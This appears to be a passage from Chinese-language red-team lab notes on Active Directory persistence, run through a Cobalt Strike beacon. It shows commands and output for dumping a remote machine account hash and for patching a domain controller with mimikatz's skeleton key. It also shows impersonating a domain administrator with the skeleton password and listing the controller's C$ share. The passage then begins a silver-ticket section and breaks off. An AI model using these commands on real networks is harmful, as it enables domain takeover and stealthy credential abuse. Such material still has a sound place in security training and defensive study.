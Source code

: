 beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> powershell Get-RemoteMachineAccountHash -ComputerName srv-2

ComputerName MachineAccountHash              
------------ ------------------              
srv-2        5d0d485386727a8a92498a2c188627ec
```

# Skeleton Key

万能钥匙

制作万能钥匙
```
beacon> run hostname
dc-2

beacon> mimikatz !misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK
```

使用万能钥匙密码```mimikatz```访问域控
```
beacon> make_token DEV\Administrator mimikatz
[+] Impersonated DEV\bfarmer

beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/10/2021 14:38:44   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/10/2021 13:52:03   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     03/11/2021 12:59:29   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     03/11/2021 09:19:53   pagefile.sys
```

**除非重新启动域控制器，否则无法删除万能密钥。万能钥匙可能引起一些复制问题（replication issues）**

# Silver Tickets

银票可以访问一台机器的一个服务，或者一台机器的任何服务

Silver Ticket 是伪造的 TGS

需要的哈希：RC4或者AES keys

制作银票
```